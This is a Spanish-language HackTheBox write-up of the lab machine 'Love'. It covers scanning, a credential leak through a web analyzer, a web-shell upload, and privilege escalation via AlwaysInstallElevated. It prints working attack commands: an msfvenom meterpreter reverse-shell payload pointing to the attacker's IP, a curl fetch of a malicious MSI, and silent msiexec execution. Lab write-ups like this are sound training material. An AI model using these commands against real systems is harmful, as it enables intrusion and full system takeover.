 
<h1 align="center">
  <br>
  <img src="https://raw.githubusercontent.com/s4yhii/HackTheBox-Writeups/main/love/img/love.png" alt="Love">
  <br>
</h1>

***

**Machine IP** : 10.10.10.239

**DATE**  : 26/06/2021

***


## Reconocimiento
Primero hacemos un escaneo de puertos para saber cuales están abiertos y conocer sus servicios correspondientes.

## Nmap 

```bash
❯ nmap -sC -sV -n -p443,445,80,135,139,3306,5000,7680,47001,5985,5986 -Pn 10.10.10.239        17s
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-26 03:27 EDT
Nmap scan report for 10.10.10.239
Host is up (0.12s latency).

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Voting System using PHP
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp   open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql?
| fingerprint-strings: 
|   GenericLines, GetRequest, JavaRMI, NCP, NULL, SMBProgNeg, TerminalServerCookie, X11Probe, giop: 
|_    Host '10.10.14.28' is not allowed to connect to this MariaDB server
5000/tcp  open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open  ssl/http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
| ssl-cert: Subject: commonName=LOVE
| Subject Alternative Name: DNS:LOVE, DNS:Love
| Not valid before: 2021-04-11T14:39:19
|_Not valid after:  2024-04-10T14:39:19
|_ssl-date: 2021-06-26T07:54:21+00:00; +25m42s from scanner time.
| tls-alpn: 
|_  http/1.1
7680/tcp  open  pando-pub?
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.91%I=7%D=6/26%Time=60D6D6EB%P=x86_64-pc-linux-gnu%r(NU
SF:LL,4A,"F\0\0\x01\xffj\x04Host\x20'10\.10\.14\.28'\x20is\x20not\x20allow
SF:ed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(GenericLines
SF:,4A,"F\0\0\x01\xffj\x04Host\x20'10\.10\.14\.28'\x20is\x20not\x20allowed
SF:\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(GetRequest,4A,
SF:"F\0\0\x01\xffj\x04Host\x20'10\.10\.14\.28'\x20is\x20not\x20allowed\x20
SF:to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(TerminalServerCook
SF:ie,4A,"F\0\0\x01\xffj\x04Host\x20'10\.10\.14\.28'\x20is\x20not\x20allow
SF:ed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(SMBProgNeg,4
SF:A,"F\0\0\x01\xffj\x04Host\x20'10\.10\.14\.28'\x20is\x20not\x20allowed\x
SF:20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(X11Probe,4A,"F\0
SF:\0\x01\xffj\x04Host\x20'10\.10\.14\.28'\x20is\x20not\x20allowed\x20to\x
SF:20connect\x20to\x20this\x20MariaDB\x20server")%r(NCP,4A,"F\0\0\x01\xffj
SF:\x04Host\x20'10\.10\.14\.28'\x20is\x20not\x20allowed\x20to\x20connect\x
SF:20to\x20this\x20MariaDB\x20server")%r(JavaRMI,4A,"F\0\0\x01\xffj\x04Hos
SF:t\x20'10\.10\.14\.28'\x20is\x20not\x20allowed\x20to\x20connect\x20to\x2
SF:0this\x20MariaDB\x20server")%r(giop,4A,"F\0\0\x01\xffj\x04Host\x20'10\.
SF:10\.14\.28'\x20is\x20not\x20allowed\x20to\x20connect\x20to\x20this\x20M
SF:ariaDB\x20server");
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h10m44s, deviation: 3h30m03s, median: 25m41s
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: Love
|   NetBIOS computer name: LOVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-06-26T00:54:15-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-06-26T07:54:13
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 62.43 seconds

```

En el puerto 80, observamos un servidor web abierto.

![](https://raw.githubusercontent.com/s4yhii/HackTheBox-Writeups/main/love/img/voting.png)

Y  en el puerto 443, tenemos un servidor web corriendo con `commonName=staging.love.htb`, añadiendo este host al `etc/hosts`, podremos visualizar otra pagina web con el dominio `staging.love.htb`.

![](https://raw.githubusercontent.com/s4yhii/HackTheBox-Writeups/main/love/img/scanner.png)

Existe un tercer servidor web en el puerto 5000, pero es inaccesible.

Usaremos la herramienta `gobuster` para el escaneo de directorios y archivos en estas 2 paginas web.

```bash
~ ❯ gobuster dir -u http://10.10.10.239 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -t 100 -x php,txt,html
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.239
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt,html
[+] Timeout:                 10s
===============================================================
2021/06/26 03:07:57 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 338] 
/login.php            (Status: 302) [Size: 0]
/index.php            (Status: 200) [Size: 4388]                 
/home.php             (Status: 302) [Size: 0] 
/admin                (Status: 301) [Size: 337] 
/plugins              (Status: 301) [Size: 339]
/includes             (Status: 301) [Size: 340] 
/logout.php           (Status: 302) [Size: 0]    
/preview.php          (Status: 302) [Size: 0] 
/dist                 (Status: 301) [Size: 336] 
```

```bash
~ ❯ gobuster dir -u http://staging.love.htb/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -t 100 -x php,txt,html
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://staging.love.htb/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt,html
[+] Timeout:                 10s
===============================================================
2021/06/26 03:08:53 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 5357]
/beta.php             (Status: 200) [Size: 4997]
/examples             (Status: 503) [Size: 406] 
/licenses             (Status: 403) [Size: 425] 
```

Luego de probar con todos los directorios, encontré un analizador web en el dominio `beta.php` , introduciendo la url del puerto 5000, la cual es `http://10.10.10.239:5000`, encontramos las credenciales `admin:@LoveIsInTheAir!!!!` 

![](https://raw.githubusercontent.com/s4yhii/HackTheBox-Writeups/main/love/img/scanweb.png)

Luego nos logeamos en la otra pagina dentro del directorio `admin`, la cual sigue el siguiente dominio `http://10.10.10.239/admin/index.php`.

![](https://raw.githubusercontent.com/s4yhii/HackTheBox-Writeups/main/love/img/adminweb.png)

Buscando informacion sobre la version del sistema y obteniendo pistas del directorio `images`, me pude dar cuenta que la web admitia subida de archivos, entonces probé con subir un `backdoor` que actuara como una webshell con msfvenom y metasploit para generar el `payload`

```bash
msfvenom -p windows/meterpreter/reverse_tcp lport=4445 lhost=10.10.14.28 -f exe -o back.exe`
```

![](https://raw.githubusercontent.com/s4yhii/HackTheBox-Writeups/main/love/img/msf.png)

Y estableciendo el  listener con `metasploit`

![](https://raw.githubusercontent.com/s4yhii/HackTheBox-Writeups/main/love/img/metas.png)

Luego subí la `web shell` de esta página ([Simple-PHP-Web-Shell/index.php at master · artyuum/Simple-PHP-Web-Shell (github.com)](https://github.com/artyuum/Simple-PHP-Web-Shell/blob/master/index.php)) para ejecutar el backdoor que generé con msfvenom.

![](https://raw.githubusercontent.com/s4yhii/HackTheBox-Writeups/main/love/img/webshell.png)

Ejecutando el backdoor llamado `back.exe` establecemos conexion y obtenemos una shell como el usuario `phoebe`

## Escalamiento de privilegios

Ahora viene la parte más trabajosa, la cual es la escalada , luego de activar una shell cmd con el comando `execute -f cmd.exe -i -H`  corremos winpeas dentro de la maquina y nos encontramos con la vulnerabilidad de `AlwaysInstalledElevated` que se trata de políticas de usuarios mal configurada, eso pude explotarlo con esta guia [AlwaysInstalledElevate](https://www.hackingarticles.in/windows-privilege-escalation-alwaysinstallelevated/)

Creando el `payload` con `msfvenom` para elevar privilegios 

![](https://raw.githubusercontent.com/s4yhii/HackTheBox-Writeups/main/love/img/priv.png)

Luego lo copiamos a la maquina a comprometer con el comando

```bash
curl http://<your IP>/revers.msi -o alwaysinstallelevated.msi
```

![](https://raw.githubusercontent.com/s4yhii/HackTheBox-Writeups/main/love/img/subida.png)

Luego establecemos un `listener` en nuestra maquina con `netcat` y ejecutamos el `payload` en la maquina love con el comando

```bash
msiexec /quiet /qn /i alwaysinstallelevated.msi
```

Finalmente obtenemos una shell en nuestra maquina y obtenemos el `root.txt`

![](https://raw.githubusercontent.com/s4yhii/HackTheBox-Writeups/main/love/img/root.png)

Gracias por leer hasta aquí.